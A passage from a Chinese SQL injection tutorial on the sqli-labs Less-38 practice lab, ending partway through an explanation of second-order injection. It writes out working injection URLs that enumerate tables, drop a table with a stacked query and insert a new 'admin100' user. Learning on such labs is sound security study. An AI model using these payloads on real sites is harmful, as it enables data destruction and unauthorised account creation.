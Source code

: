 URL：http://192.168.10.150/sqlilabs/Less-38/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

通过返回的数据明显能够看到多了一个test文件。

![img](https://s2.loli.net/2023/03/12/IKZ6LpXktfMral2.jpg) 

#### 3.8.3.3.**删除表**

删除test表。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; drop table test;--+

![img](https://s2.loli.net/2023/03/12/Yw4N2EGu9dzJgkI.jpg) 

验证：

URL：http://192.168.10.150/sqlilabs/Less-38/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

通过返回数据明显是少了一个test表。

![img](https://s2.loli.net/2023/03/12/YlyX8GeT3cfaKmH.jpg) 

#### 3.8.3.4.**创建用户**

创建一个ID为16，用户名为：admin100，密码为：admin100的用户。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; insert into users values(16,'admin100','admin100');--+

![img](https://s2.loli.net/2023/03/12/PsjbWANM6GCqQpY.jpg) 

验证：

通过输入ID号，获取我们创建的用户。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=16

![img](https://s2.loli.net/2023/03/12/Nad4HcOnqV9xTEt.jpg) 

## 3.9.**二阶注入**

### 3.9.1.**二阶注入基本概念**

#### 3.9.1.1.**二阶注入定义**

二阶排序注入也成为存储型的注入，就是将可能导致sql 注入的字符先存入到数据库中，当再次调用这个恶意构造的字符时，就可以出发sql注入。

#### 3.9.1.2.**二阶注入原理**

第一步：插入恶意数据

第一次进行数据库插入数据的时候，仅仅对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身包含恶意内容。

第二步：引用恶意数据
